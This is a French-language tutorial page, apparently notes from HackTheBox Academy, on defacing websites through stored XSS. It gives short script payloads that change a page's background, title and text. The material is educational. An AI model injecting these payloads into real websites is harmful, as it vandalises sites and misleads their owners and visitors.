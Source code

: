 ```yaml
---
title:  "Défiguration"
category: "Attaque XSS"
tag: "Cross-Site Scripting (XSS)"
---
```


L'une des attaques les plus courantes, généralement utilisée avec les XSS stockées, est l'attaque de défiguration de site web.\
**Défiguration (Defacing)** signifie modifier l'apparence du site web pour quiconque le visite.

Bien que beaucoup d'autres vulnérabilités peuvent être utilisées pour arriver à ce résultat, les XSS stockées sont les vulnérabilités les plus utilisées.

# Éléments de défiguration

Le but d'une défiguration est d'envoyer un message et pas de faire du design.
Les éléments HTML souvent utilisés sont les suivants :
- Couleur de fond **document.body.style.background**
- Arrière-plan **document.body.background**
- Titre de la page **document.title**
- Texte de la page **DOM.innerHTML**

### Changer l'arrière-plan

```javascript
<script>document.body.style.background = "#141d2b" </script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg" </script>
```

### Changer le titre de la page

```javascript
<script>document.title = 'HackTheBox Academy' </script>
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg" </script>
```

### Changer le tete de la page

```javascript
document.getElementById("todo").innerHTML = "New Text"      // DOM element / inner HTML
$("#todo").html('New Text');                                // JQuery functions
document.getElementsByTagName('body')[0].innerHTML = "New Text" //[0] for entier text of web page
```


